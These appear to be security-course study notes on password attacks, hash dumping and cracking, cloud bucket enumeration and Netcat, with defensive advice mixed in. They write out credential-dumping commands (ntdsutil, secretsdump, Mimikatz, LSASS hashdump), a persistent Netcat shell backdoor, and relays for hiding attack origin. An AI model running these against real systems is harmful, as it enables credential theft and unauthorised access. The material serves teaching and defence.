A password is the ultimate prize for an attacker — it gives unconditional access and maybe even some juicy files along the way. Here we'll study how attackers get their hands on your passwords, and how you can keep them safe.

## Password Attacks

### Password Guessing

Our first kind of attack, and the most classic one. It starts with getting a valid userID/username, then building a list of possible passwords. Try each one — if it's correct, you're in; if not, try the next. Of course, you won't do this manually — you'll use scripts with conditions like one guess every 5 seconds and at most 5 guesses per account, so you don't trigger a lockout. **MITRE ID: T1110.**

### Password Spraying

To avoid account lockouts, this technique flips the ratio: a small list of passwords against a huge list of accounts. You spray your small password list across every account hoping it lands on at least one, then wait for the lockout timer to reset before trying another small batch.

### THC Hydra

:::tip
THC Hydra is a password-guessing tool supporting a huge range of protocols. It tests username/password combinations against services and supports several modes: single username/single password, single password against many usernames, multiple passwords against a single username, and any combination in between.
:::

### Password Guess Selection

Here we improve our password guessing by factoring in context — does the company have a favorite local sports team or a brand employees feel connected to? Is the password reset quarterly (spring/summer/fall/winter) or monthly? This technique is simple but proven effective across countless pentests and real hacking campaigns.

### Credential Stuffing

What better way to get a password than reusing one that's already been stolen? Here the attacker works through a huge collection of leaked breach data, searching for a domain like `@sans.org` or a specific name like "joker." This can surface an organization's user passwords, or credentials belonging to a specific individual.



## Understanding Password Hashes

Storing a password in plain text is a bad idea, but the system still needs to verify the user entered the correct one. So instead of storing the password itself, we store its hash — and when the user logs in, we hash their input and compare it to the stored value.

### Windows LANMAN Hashes

Used in early Windows versions, LANMAN is very weak and can't withstand a password recovery attack. The process: the user enters a password (max 14 characters), it's converted entirely to uppercase, then padded to 14 bytes. The password is split into two 7-byte halves, each used as a DES key to encrypt a fixed string ("KGS!@#$%"), and the results are concatenated.

:::caution
LANMAN's weak construction makes it trivially easy to crack — a huge advantage for any attacker who finds one still in use.
:::

### NT Hashes

Better than LANMAN, but still not great. Here an ASCII password is converted to Unicode and hashed using MD4. The weakness: no salting, which means it's easier to crack, and any two users with the same password will produce identical hashes. NT hashes are sometimes called "NTLM hashes," but that's a misnomer — NTLM is actually an authentication protocol, not a hash function.

### Salting

Instead of just hashing the password, a salt — a small random string — is added before hashing, increasing entropy and defeating precomputed-table attacks. The salt itself is stored in plain text alongside the hash.

### Rainbow Tables

Leveraging the weakness of unsalted hashes, attackers can precompute massive tables mapping passwords to their hashes. Cracking then becomes as simple as looking up the hash and reading off the matching password.

:::tip
Sites like CrackStation let you paste in a hash and get the plaintext back instantly — for unsalted hashes, at least. Salted passwords make this approach essentially useless.
:::

### Obtaining Windows Domain Controller Hashes

After getting admin access, you can't just copy `NTDS.dit` directly — it's encrypted using the SYSTEM hive. Instead:

```bash title="Create an IFM backup of NTDS.dit"
ntdsutil "activate instance ntds" "ifm" "create full c:\ntdsbak" "quit" "quit"
```

This creates a backup containing both `NTDS.dit` and `SYSTEM` in `C:\ntdsbak`. From there, extract the hashes:

```bash title="Extract NTDS hashes with secretsdump"
secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL
```

### Obtaining Windows 10 Local Passwords

First, migrate into the LSASS process so you can dump credentials from memory:

```bash title="Migrate into lsass.exe and dump hashes"
migrate -N lsass.exe
hashdump
```

Alternatively, save the relevant registry hives and parse them offline with Mimikatz:

```bash title="Save SAM/SYSTEM hives and extract hashes with Mimikatz"
reg save hklm\sam sam.hiv && reg save hklm\system system.hiv
c:\tools\mimikatz\x64\mimikatz.exe "lsadump::sam /sam:sam.hiv /system:system.hiv" "exit"
```

:::note
Most tools output hashes in the format `username:userid:LANMAN:NTHASH`. It's worth knowing what an empty LANMAN hash looks like so you don't mistake it for a real one.
:::

### UNIX and Linux Passwords

In early UNIX, passwords were stored in `/etc/passwd` using DES. Later, hashes moved to `/etc/shadow`, which is readable only by privileged users, and the hashing schemes themselves grew more advanced and added salting.

### Decoding UNIX/Linux Password Hashes

`/etc/shadow` stores hashes using `$` as a field separator: the encryption algorithm identifier (1–6), the salt, and finally the hash itself.



### Hashing Rounds

Instead of hashing the password once, the system runs the hash function thousands of times (commonly 5000), making each individual guess more expensive to compute. For an attacker grinding through millions of guesses, every extra round adds up.

As GPU and CPU power available to the public keeps growing, password cracking keeps getting easier — which means defenders have to keep raising the cost, either by increasing rounds or adopting memory-hard hashing schemes designed to stay expensive even on high-end hardware.



## Password Cracking

Consider this scenario: an attacker compromises a low/medium-importance system, dumps every hash stored on it, cracks them, and pivots into a higher-privilege account — and now they have everything they need to compromise the whole environment. It sounds almost too simple, but it happens constantly. Let's break down exactly how.

### John the Ripper

An open-source, cross-platform cracking tool. To run it, feed it password hashes — on Unix, you'll need the unshadowed version of the password file; on Windows, feed it the output of `hashdump` or `secretsdump.py`.

### John Cracking Modes

| Mode | Argument | Feature |
| --- | --- | --- |
| Single Crack | `-single` | Uses variations of the account name, `/etc/passwd` info, and more |
| Wordlist | `-wordlist filename` | Uses a dictionary wordlist with optional mangling rules to generate permutations |
| Incremental | `-incremental` | Pure brute-force guessing |
| External | `-external` | Uses an external program to generate guesses |
| Default | — | John runs Single mode, then Wordlist, then Incremental, in that order |

:::note
If you give John the wrong hash format, it generally won't be able to crack it — though John does include autodetection to help with this. On Windows, you'll usually need to specify the hash type explicitly. Cracked passwords print to the screen and are saved into a `john.pot` file.
:::

### Hashcat

Another password-cracking tool. What makes Hashcat unique is its use of GPU power, making it dramatically faster than CPU-based crackers — and it can leverage multiple GPUs to crack a single hash even faster.

### Hashcat Attack Modes

```bash title="Basic Hashcat wordlist attack"
hashcat -m 1000 -a 0 ./smart-hashdump.txt words.txt
```

`-m` specifies the hash type you're cracking; `-a` specifies the attack mode, followed by the hash file and then the wordlist.

**Straight (`-a 0`):** uses a wordlist, trying each password in it directly.

**Combinator (`-a 1`):** takes two wordlists and combines every word from one with every word from the other. If one file has 1 million passwords and the other has just 6, this produces 6 million combined guesses.

**Mask (`-a 3`):** similar in spirit to a regex, but instead of searching, you fill in a template character by character. The table below shows the character classes:

| Marker | Character Sequence |
| --- | --- |
| `?l` | abcdefghijklmnopqrstuvwxyz |
| `?u` | ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| `?d` | 0123456789 |
| `?s` | «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~ |
| `?a` | `?l?u?d?s` (all of the above) |

:::tip
Say a company's password policy reads: "You must select a password of at least 8 characters with at least one capital letter and one number." A reasonable guess is that most users will pick a word starting with a capital letter and ending in a number — something like `?u?l?l?l?l?l?d?d` as a mask.
:::

**Hybrid Wordlist + Mask (`-a 6`):** takes a wordlist and appends a mask to every entry — e.g., adding `123` to the end of every password in the list.

**Hybrid Mask + Wordlist (`-a 7`):** the same idea, but the mask is prepended instead of appended.

### Hashcat Rules

Add `-r` to a cracking command to mutate every password in the wordlist according to a ruleset, generating many more guesses per base word.

Here's a top-10 rules list for 2025:

| Rule | Description | Type/Action |
| --- | --- | --- |
| `$1` | Append the character `1` to the end of the word | Append |
| `$1 $2` | Append `12` to the end of the word | Append |
| `$1 $2 $3` | Append `123` to the end of the word | Append |
| `c` | Capitalize the first letter of the word (`password` → `Password`) | Case manipulation |
| `u` | Convert the entire word to uppercase (`password` → `PASSWORD`) | Case manipulation |
| `$!` | Append the character `!` to the end of the word | Append |
| `d` | Duplicate the word (`word` → `wordword`) | Duplication |
| `so0 si1 se3 ss$ sa@` | Multiple substitutions run sequentially: `o`→`0`, `i`→`1`, `e`→`3`, `s`→`$`, `a`→`@` | Substitution |
| `$2 $0 $2 $5` | Append the string `2025` to the end of the word | Append |

### Preparation

A few defensive steps map directly onto the attack scenario we opened with.

For **Windows**: disable LANMAN authentication by adding a `NoLMHash` key under `SYSTEM\CurrentControlSet\Control\Lsa`, so future password changes won't generate a LANMAN hash at all. Enforce password complexity through the Active Directory Users and Computers MMC by enabling *Password must meet complexity requirements*. Favor longer passwords over short, complex ones — length tends to beat complexity for actual entropy.

:::warning
Forcing password resets every 90 days tends to backfire — users respond by picking weaker passwords or writing them down. Avoid mandatory periodic resets unless there's evidence of compromise.
:::

For **Unix** systems, lean on Pluggable Authentication Modules (PAM) to enforce strong policy.

Finally, deploy **multi-factor authentication**. All the hardening above helps, but MFA is the single layer most likely to save your company from a costly breach.



## Domain Password Audit Tool (DPAT)

DPAT is a Python script (works on Windows or Unix) that characterizes how users select their passwords — essentially a metadata analysis tool that surfaces patterns hidden across an entire password dump.

### Preparation

Start by extracting `NTDS.dit` and the `SYSTEM` hive from the domain controller:

```bash title="Create an IFM backup for DPAT analysis"
ntdsutil "activate instance ntds" "ifm" "create full c:\ntdsbak" "quit" "quit"
```

This creates `c:\ntdsbak` (if it doesn't already exist), containing both `NTDS.dit` and `SYSTEM`.

Next, export a list of Windows domain groups, each to its own text file of member usernames:

```bash title="Export AD group membership to text files"
Get-ADGroup -Filter * | % { Get-ADGroupMember $_.Name | Select-Object -ExpandProperty SamAccountName | Out-File -FilePath "$($_.Name).txt" -Encoding ASCII }
```

Then export the hashes with Impacket's `secretsdump.py`:

```bash title="Export domain hashes with secretsdump"
secretsdump.py -system "registry/SYSTEM" -ntds "ActiveDirectory/ntds.dit" LOCAL -outputfile customer -history
```

Crack the extracted hashes with Hashcat:

```bash title="Mask attack against NTDS hashes"
hashcat -m 3000 -a 3 customer.ntds --potfile-path hashcat.potfile -1 ?u?d?s --increment ?1?1?1?1?1?1?1
```

```bash title="Wordlist attack against NTDS hashes"
hashcat -m 1000 -a 0 customer.ntds wordlist.txt --potfile-path ./hashcat.potfile
```

:::tip
Customize your guessing strategy as much as possible based on the company's actual password policy — the closer your masks and wordlists match real-world patterns, the more you'll crack.
:::

### Run It

With preparation complete, run DPAT itself:

```bash title="Run DPAT against cracked hashes and group lists"
python dpat.py -n ../ntdsbak/customer.ntds -c ../ntdsbak/hashcat.potfile -g ../ntdsbak/*.txt
```

This produces the full report.

The overview gives a quick summary of what the report found:





We can see password length distribution and counts.

Top passwords can reveal a lot — including default passwords set by IT that never got changed.



We can also see the most commonly occurring hashes, which surfaces password reuse across employees even for hashes that weren't cracked — plus domain group analysis, historical analysis, and more.



## Cloud Spotlight: Insecure Storage

Amazon S3 buckets, Google Cloud Storage buckets, and Azure Blob Storage are foundational to how everything gets stored in the cloud today. In AWS's early days, buckets defaulted to public access — that's since changed, but plenty of buckets are still left unprotected today, usually because admins either don't understand or don't prioritize the security implications.

Some of the relevant AWS settings:



### Cloud Storage Access

All cloud providers expose data over HTTP using broadly similar endpoint patterns:

```
https://s3.amazonaws.com/BUCKETNAME
https://ACCOUNTNAME.blob.core.windows.net/CONTAINERNAME
https://www.googleapis.com/storage/v1/b/BUCKETNAME
```

An attacker who can guess the bucket name can often access the data directly — which makes enumeration the key technique here.

### Scanning AWS S3

:::tip
**Bucket Finder** enumerates AWS S3 buckets — feed it a wordlist of candidate bucket names and it checks whether each exists and whether it's public. It can also download data from any buckets it finds open.
:::

### Scanning Google Cloud Storage

GCPBucketBrute can identify whether a bucket exists and enumerate the permissions attached to it, searching by wordlist or a single name. Downloading contents requires Google's `gsutil` tool separately.

### Azure Scanning

Basic Blob Finder takes a list of colon-separated strings — the first part is the account name, the second is the container name — and surfaces publicly accessible containers along with their files.

:::tip
Creative bucket naming conventions can help you cover more ground: permute the company name with common rules, or use OSINT to surface naming patterns that lead to undiscovered buckets.
:::

You should periodically scan your own organization's cloud footprint using these techniques — just make sure you're doing so legally, and that what you find is actually actionable. DNS, HTTP headers, and network traffic can all help identify which cloud provider is in use, so even a simple packet capture can be a useful starting point.

:::warning
Enabling logging for cloud storage may require a separate bucket to receive the logs, and it's not always the easiest thing to wire up — but it's extremely valuable for the IR team when something does go wrong.
:::



## Netcat

Netcat was built back in 1996 — a tool now nearly 30 years old that's still in active use today, alongside spinoffs like Ncat and GNU Netcat.

Netcat has two modes: **client** mode, where you give it an IP and port to connect to and pipe data to/from that connection, and **listener** mode (`-l`), where it listens on a TCP or UDP port and can pipe received data to another application or just print it to the screen. Clients initiate connections; listeners wait for them to arrive.

### Data Transfer (Moving Files)

:::note
You can run Netcat over a port like 53 to make traffic superficially resemble normal DNS packets — useful for evading naive port-based filtering.
:::

To send data from a listener to a client:

```bash title="Listener sends a file"
nc -l -p 1234 < filename
```

```bash title="Client receives the file"
nc listenerIP 1234 > filename
```

To send data from a client to a listener:

```bash title="Listener receives a file"
nc -l -p 1234 > filename
```

```bash title="Client sends the file"
nc listenerIP 1234 < filename
```

### Port Scanning

```bash title="Basic port scan with netcat"
nc -v -w3 -z targetIP startport-endport
```

`-v` reports whether a connection was made, `-w3` waits at most 3 seconds for a response, `-z` sends minimal/no data, and the IP/port-range arguments specify the scan target. You can also originate traffic from a specific source port using `-p`.

### Backdoors

:::caution
Netcat can be used to spawn a login shell by combining a listener with `-e`, which executes a shell on connection. With `-l`, Netcat listens for exactly one connection and then exits; `-L` (Windows-only) makes it listen continuously.
:::

On Linux, since `-L` isn't available, a continuous listener can be emulated with a loop:

```bash title="Persistent netcat listener on Linux"
while [ 1 ]; do echo "Started"; nc -l -p [port] -e /bin/sh; done
```

Save this as `listener.sh` and run it detached so it survives logout:

```bash title="Run the listener script detached from the session"
nohup ./listener.sh &
```

### Relays

A relay makes one machine forward traffic exactly as instructed, which lets an attacker route through a compromised host to obscure the true origin of their traffic. From the attacker's machine:

```bash title="Attacker connects to the relay"
nc 10.10.10.10 2222
```

On the compromised (relay) machine:

```bash title="Relay forwards traffic to the final target"
nc -l -p 2222 | nc 10.10.10.100 80
```

This lets the attacker interact with the final target through the relay, helping bypass firewalls and obscure attribution — but note this is a one-way relay only.



A two-way relay on Linux is also possible. First, create a named pipe to move data bidirectionally:

```bash title="Create a named pipe for a two-way relay"
mkfifo backpipe
```

```bash title="Two-way relay using the named pipe"
nc -l -p 2222 < backpipe | nc 10.10.10.100 80 > backpipe
```

This listens for the attacker's connection, feeds incoming data to the client connection, and routes the response back through the named pipe to the original listener.

### Defending Against Netcat

**Data transfer & backdoors:** monitor what's actually running on your systems, and investigate any process showing unusual port activity.

**Port scanners & connections to open ports:** close every port you don't need. Keep open only what's required for normal operations.

**Relays & network pivoting:** strengthen internal network segmentation with layered security. Use internal firewalls to create strategic chokepoints, and use Private VLANs (PVLANs) to isolate hosts and restrict lateral movement.



**الحمد لله done**